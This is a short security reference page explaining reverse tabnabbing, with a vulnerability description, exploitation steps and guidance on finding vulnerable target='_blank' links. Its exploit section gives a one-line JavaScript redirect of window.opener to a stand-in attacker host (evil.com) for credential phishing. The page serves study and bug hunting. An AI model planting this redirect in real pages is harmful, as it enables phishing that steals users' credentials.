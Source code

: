 # Tabnabbing

> Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one.

## Summary

* [Tools](#tools)
* [More information about the vulnerability](#More-information-about-the-vulnerability)
* [How to exploit](#How-to-exploit)
* [How to hunt for it](#How-to-hunt-for-it)
* [References](#references)

## Tools

- [Discover Reverse Tabnabbing - Burp Extension](https://portswigger.net/bappstore/80eb8fd46bf847b4b17861482c2f2a30)

## More information about the vulnerability

When tabnabbing, the attacker searches for links that are inserted into the website and are under his control. Such links may be contained in a forum post, for example. Once he has found this kind of functionality, it checks that the link's `rel` attribute does not contain the value `noopener` and the target attribute contains the value `_blank`. If this is the case, the website is vulnerable to tabnabbing.

## How to exploit 
```
1. Attacker posts a link to a website under his control that contains the following JS code: window.opener.location = "http://evil.com"
2. He tricks the victim into visiting the link, which is opened in the browser in a new tab.
3. At the same time the JS code is executed and the background tab is redirected to the website evil.com, which is most likely a phishing website.
4. If the victim opens the background tab again and doesn't look at the address bar, it may happen that he thinks he is logged out, because a login page appears, for example.
5. The victim tries to log on again and the attacker receives the credentials
```

## How to hunt for it 

As already mentioned, you have to search for the following link formats: 

```html
<a href="..." target="_blank" rel="" />  
or
<a href="..." target="_blank" />
```

## References

- [Reverse Tabnabbing - OWASP, 20.10.20](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)
- [Tabnabbing - Wikipedia, 20.10.20](https://en.wikipedia.org/wiki/Tabnabbing)
